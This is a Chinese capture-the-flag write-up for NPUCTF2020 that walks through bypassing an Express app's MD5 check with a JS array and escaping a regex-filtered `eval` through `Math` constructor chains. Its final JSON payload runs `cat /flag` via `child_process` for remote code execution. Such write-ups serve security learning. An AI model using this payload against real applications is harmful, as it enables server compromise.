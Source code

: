 # NPUCTF2020 验证码

## 知识点

1. javascript 原型链污染
2. js的弱类型比较（语言特性）
3. js的匿名函数

## 解题

```javascript
const express = require('express');
const bodyParser = require('body-parser');
const cookieSession = require('cookie-session');

const fs = require('fs');
const crypto = require('crypto');

const keys = require('./key.js').keys;

function md5(s) {
  return crypto.createHash('md5')
    .update(s)
    .digest('hex');
}

function saferEval(str) {
  if (str.replace(/(?:Math(?:\.\w+)?)|[()+\-*/&|^%<>=,?:]|(?:\d+\.?\d*(?:e\d+)?)| /g, '')) {
    return null;
  }
  return eval(str);
} // 2020.4/WORKER1 淦，上次的库太垃圾，我自己写了一个

const template = fs.readFileSync('./index.html').toString();
function render(results) {
  return template.replace('{{results}}', results.join('<br/>'));
}

const app = express();

app.use(bodyParser.urlencoded({ extended: false }));
app.use(bodyParser.json());

app.use(cookieSession({
  name: 'PHPSESSION', // 2020.3/WORKER2 嘿嘿，给👴爪⑧
  keys
}));

Object.freeze(Object);
Object.freeze(Math);

app.post('/', function (req, res) {
  let result = '';
  const results = req.session.results || [];
  const { e, first, second } = req.body;
  if (first && second && first.length === second.length && first!==second && md5(first+keys[0]) === md5(second+keys[0])) {
    if (req.body.e) {
      try {
        result = saferEval(req.body.e) || 'Wrong Wrong Wrong!!!';
      } catch (e) {
        console.log(e);
        result = 'Wrong Wrong Wrong!!!';
      }
      results.unshift(`${req.body.e}=${result}`);
    }
  } else {
    results.unshift('Not verified!');
  }
  if (results.length > 13) {
    results.pop();
  }
  req.session.results = results;
  res.send(render(req.session.results));
});

// 2019.10/WORKER1 老板娘说她要看到我们的源代码，用行数计算KPI
app.get('/source', function (req, res) {
  res.set('Content-Type', 'text/javascript;charset=utf-8');
  res.send(fs.readFileSync('./index.js'));
});

app.get('/', function (req, res) {
  res.set('Content-Type', 'text/html;charset=utf-8');
  req.session.admin = req.session.admin || 0;
  res.send(render(req.session.results = req.session.results || []))
});

app.listen(80, '0.0.0.0', () => {
  console.log('Start listening')
});
```

看到源码，注意到 `pp.use(bodyParser.json());`，可以判断使用json进行解析

其次对于 first 及 second，要满足

```javascript
first && second && first.length === second.length && first!==second && md5(first+keys[0]) === md5(second+keys[0])
```

首先要了解js对传入数据为数组的形式进行属性判断时，需要拆出其中的值
例如

```text
first = 1                                        first = 1
                =>  first != second  =>                         => first.length === second.length (undefined)
second = [1]                                     second = 1
```

可得 payload 的一部分

```text
{"first": "1", "second":[1]}
```

其次对于e，要满足

```javascript
if (str.replace(/(?:Math(?:\.\w+)?)|[()+\-*/&|^%<>=,?:]|(?:\d+\.?\d*(?:e\d+)?)| /g, '')) {
    return null;
  }
```

可得e只能出现 `()+\-*/&|^%<>=,?:` 及 `Math`

这个可以考虑到node中常见的原型链污染及rce

既然只可出现 `()+\-*/&|^%<>=,?:` 及 `Math`，可利用其组成js中的匿名函数

```javascript
x => x*x === function(x) {return x*x};
```

其次对于原型链

```text
Math.constructor => Object => constructor => Function => use function based Objcet
(Math + 1).constructor => String => constructor => Function => use function based String
```

所以可得要实现无字母的rce，可利用 Math.fromCharCode 函数，但是这个要求基于String，否则抛出错误，恰好满足条件，构造payload

```text
{"e":"(Math=>(Math=Math.constructor,Math.x=Math.constructor(Math.fromCharCode(114,101,116,117,114,110,32,112,114,111,99,101,115,115,46,109,97,105,110,77,111,100,117,108,101,46,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,83,121,110,99,40,39,99,97,116,32,47,102,108,97,103,39,41))()))(Math+1)"}
```

post得到flag


## 总结

还是要学js和node呀，js太灵活了...
